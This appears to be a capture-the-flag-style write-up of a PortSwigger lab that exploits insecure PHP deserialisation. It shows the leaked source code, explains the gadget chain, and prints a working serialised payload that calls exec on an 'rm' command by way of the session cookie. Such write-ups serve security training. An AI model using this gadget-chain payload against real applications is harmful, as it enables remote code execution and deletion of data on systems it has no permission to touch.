 # Developing a custom gadget chain for PHP deserialisation

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-php-deserialization) uses a serialisation-based session mechanism. By deploying a custom gadget chain, you can exploit its insecure deserialisation to achieve remote code execution. 

## Reproduction and proof of concept

1. Log in with `wiener:peter`. The session cookie contains a serialised PHP object. 

![Serialisation](/_static/images/ser10.png)

2. The website references the file `/cgi-bin/libs/CustomTemplate.php` (find in **Target** tab). Get the source code by submitting a request using the `.php~` backup file extension.

Response:

```text
HTTP/1.1 200 OK
Content-Type: text/plain
Set-Cookie: session=; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 1396

<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```

3. The `__wakeup()` magic method for a `CustomTemplate` will create a new Product by referencing the `default_desc_type` and `desc` from the `CustomTemplate`.
4. The `DefaultMap` class has the `__get()` magic method, which will be invoked if you try to read an attribute that doesn't exist for this object. This magic method invokes `call_user_func()`, which will execute any function that is passed into it via the `DefaultMap->callback` attribute. The function will be executed on the `$name`, which is the non-existent attribute that was requested.
5. This gadget chain can be exploited to invoke `exec(rm /home/carlos/morale.txt)` by passing in a `CustomTemplate` object where:

```text
CustomTemplate->default_desc_type = "rm /home/carlos/morale.txt";
CustomTemplate->desc = DefaultMap;
DefaultMap->callback = "exec"
```

6. Follow the data flow in the source code: this will cause the `Product` constructor to try and fetch the `default_desc_type` from the `DefaultMap` object. As it doesn't have this attribute, the `__get()` method will invoke the callback `exec()` method on the `default_desc_type`, which is set to the shell command.
7. To solve the lab, Base64 and URL-encode the following serialized object, and pass it into the website via the session cookie:

```text
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}
```

![Serialisation](/_static/images/ser11.png)

## Exploitability

An attacker will need to log in to `wiener:peter`; and delete the `morale.txt` file from Carlos's home directory. 

